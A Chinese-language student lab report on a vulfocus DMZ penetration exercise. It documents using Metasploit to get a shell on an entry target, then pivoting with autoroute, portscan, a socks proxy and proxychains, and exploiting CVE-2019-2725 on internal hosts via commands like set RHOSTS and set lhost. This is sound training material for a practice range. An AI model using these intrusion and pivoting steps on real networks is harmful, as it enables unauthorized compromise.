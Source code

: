 # 网络安全实践

## 实验环境
kali2024.4
## 实验内容

## 实验步骤

### 基础运行环境准备

### 漏洞攻防环境搭建

启动vulfocus
![启动vulfocus](./pics/启动vulfocus.png)

### 场景化漏洞攻防（以 vulfocus 提供的【跨网段渗透(常见的dmz)】为例）

1. 场景安装与配置

* 【场景管理】→【环境编排管理】，根据课堂内容创建场景拓扑并保存
![自己布置的场景](./pics/场景具体拓扑图.png)
* 进入【场景】，启动指定场景
![场景](./pics/已上传的场景.png)
启动场景后可以看到相应的
![启动场景](./pics/启动场景后的容器.png)

2. 捕获指定容器的上下行流量，准备抓包
![捕获流量](./pics/捕获指定容器的上下行流量.png)

3. 攻破靶标1

* metasploit 基础配置

```
# 更新 metasploit
sudo apt install -y metasploit-framework
```

![更新](./pics/更新%20metasploit.png)

初始化metasploit本地工作数据库
![初始化metasploit](./pics/初始化metasploit本地工作数据库.png)

![开放端口](./pics/通过%20vulfocus%20场景页面看到入口靶标的开放端口.png)

![工作区](./pics/已经在demo工作区.png)

![工作区](./pics/建立工作区.png)

![搜索](./pics/在metasploit里搜索样例.png)

![use](./pics/使用上述exp.png)

![查看参数](./pics/查看exp可配置参数列表.png)

![靶机IP](./pics/配置靶机IP和目标端口.png)

![主机IP](./pics/配置攻击者主机IP.png)

![payload](./pics/使用合适的exppayload.png)

get shell
![getshell](./pics/getshell.png)
![查看打开的shell](./pics/查看打开的shell.png)

进入会话1并尝试bash指令
![get1](./pics/getshell进入会话1并尝试bash指令.png)
![bash](./pics/已拿到入口flag.png)

4. 建立立足点并发现靶标2-4

* 将cmdshell升级为metrpretershell
```sessions -u 1```
![升级](./pics/将cmdshell升级为metrpretershell.png)
进入会话2
```sessions -i 2```
![进入会话2](./pics/进入会话2.png)

* 进入会话2查看网卡列表

```
ipconfig
arp
route
```

![查看网卡](./pics/进入会话2查看网卡列表.png)

* 查看路由表和arp表

![查看路由表arp表](./pics/查看路由表和arp表.png)
![autoroute](./pics/runautoroute-s.png)

* 搜索可用的portscan
```search portscan```
![搜索](./pics/搜索可用的portscan.png)

use选择的portscan并查看可配置参数列表
![useportscan](./pics/use选择的portscan并查看可配置参数列表.png)
配置portscan参数
![配置参数](./pics/配置portscan参数.png)
tcp扫描100%
![saomiao](./pics/tcp扫描100%25.png)
查看发现新的hosts和services
![查看服务](./pics/扫描100%25后新的设备和hosts.png)
搜索socks_proxy并use
![use](./pics/搜索socks_proxy并use.png)
在后台开启socks—proxy
![socks](./pics/在后台开启socks——proxy.png)

* 新开一个cmd窗口

查看1080端口服务开放情况
![查看服务](./pics/查看1080端口服务开放情况.png)

* 编辑/etc/proxychains4.conf

```
sudo sed -i.bak -r "s/socks4\s+127.0.0.1\s+9050/socks5 127.0.0.1 1080/g" /etc/proxychains4.conf
```
![编辑](./pics/编辑etcproxychains4.png)
在攻击者主机新的窗口nmap扫描
![nmap](./pics/在攻击者主机新的窗口nmap.png)

```
# 重新进入 shell 会话
sessions -i 1
curl http://192.170.84.2:7001 -vv
curl http://192.170.84.3:7001 -vv
curl http://192.170.84.4:7001 -vv
```

![](./pics/curl2.png)
![](./pics/curl3.png)
![](./pics/curl4.png)

5. 攻破靶标2-4

```
# search exploit
search cve-2019-2725

# getshell
use 0
show options
set RHOSTS 192.170.84.2
# 分别设置不同的靶机 IP 
set lhost 192.168.56.214
# 分别 run
run -j
```

![](./pics/拿到flag2.png)
![](./pics/flag3.png)
![](./pics/flg4.png)

6. 攻破最终靶标
![](./pics/升级并发现双网卡.png)
![](./pics/最后一个flag查找中.png)
![](./pics/最后一个flag过程2.png)
![](./pics/flag5.png)

## 遇到的问题

1. 无法登陆，显示服务器内部错误
![报错](./pics/服务器内部错误.png)

* 解决方法：
![解决方法](./pics/服务器内部错误解决方法.png)
![解决方法](./pics/服务器内部错误解决方法2.png)

2. 无法启动场景，一直有一个容器无法启动，并且无法getflag
![报错](./pics/无法启动场景时查看日志发现报错.png)
![启动场景](./pics/启动场景后的容器.png)
解决方法：发现是docker.io的问题，卸载docker.io安装docker-ce后场景能够顺利运行
![](./pics/查看dockerio.png)
![](./pics/查看dockerce.png)

## 参考资料